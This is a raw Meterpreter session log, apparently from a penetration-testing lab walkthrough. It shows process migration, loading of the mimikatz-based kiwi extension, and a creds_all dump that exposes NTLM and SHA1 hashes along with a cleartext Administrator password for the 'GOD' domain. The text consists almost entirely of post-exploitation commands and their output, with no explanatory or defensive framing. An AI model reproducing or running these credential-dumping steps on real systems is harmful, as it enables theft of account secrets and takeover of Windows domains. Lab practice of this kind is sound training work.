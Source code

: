```
meterpreter > migrate 512
[*] Migrating from 2984 to 512...
[-] Error running command migrate: Rex::RuntimeError Cannot migrate into non existent process
```

```
meterpreter > migrate 524
[*] Migrating from 2984 to 524...
[*] Migration completed successfully.
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain  LM                                NTLM                              SHA1
--------       ------  --                                ----                              ----
Administrator  GOD     3cfb20151e7ae02cccf9155e3e7db453  1db9f782898fc137280b588fac868e0b  865b2f37e68a3b8c5af37a0d8c44f95aeb023d9
                                                                                           8
STU1$          GOD                                       f9409788cf55512badac576c9f15ee6d  57d56580669e86b1b07f423540160a275f1bf2f
                                                                                           8

wdigest credentials
===================

Username       Domain  Password
--------       ------  --------
(null)         (null)  (null)
Administrator  GOD     hongrisec@2019
STU1$          GOD     41 bf 55 f8 6e c5 9e 7d 27 6e ea 1e 29 be 7e 99 df 0d b0 bc 39 8b 3a 2a 1f 09 e2 ab 6c 83 f2 28 68 7f b3 57
                        a9 e4 e4 8d 5f 2c 3c 7d 88 dd 52 a9 b4 26 ea 9f 46 74 b2 1d 15 45 81 e0 ea 25 fa a8 ef e5 cd 3f 0d 35 44 b
                       1 af 9c d8 8e e1 31 28 a2 02 1d 2d 5b 3c 01 d2 35 13 8b ff 4f 46 da 4f b7 d5 d4 e6 6b 08 20 c9 4f 46 83 28
                       cc e8 4b cb f3 60 0f fd 7c 1e 1e 2f 1f bb 8a dc f8 5b be d8 b4 d0 cd f9 02 e1 c0 56 23 c7 2d c2 69 76 70 94
                        b5 cb d5 c2 90 98 52 59 1b d5 2a bd bc 08 b0 56 45 69 c3 33 33 4d 00 60 3c 8c 41 b9 c9 00 ef 75 ac 3c 2d 8
                       f cc 4b 90 4a a6 08 e5 4d eb 0a f7 32 d9 81 2e 62 aa 68 65 fd e6 d2 a4 b0 4a 52 fd 63 4f 8b 33 bc 69 65 33
                       a4 c7 3f 4a 37 a5 ce ea ed b5 07 bc 2a 4f b4 4f 3b c0 ca b8 34 d2 1b 47 f7 f9

tspkg credentials
=================

Username       Domain  Password
--------       ------  --------
```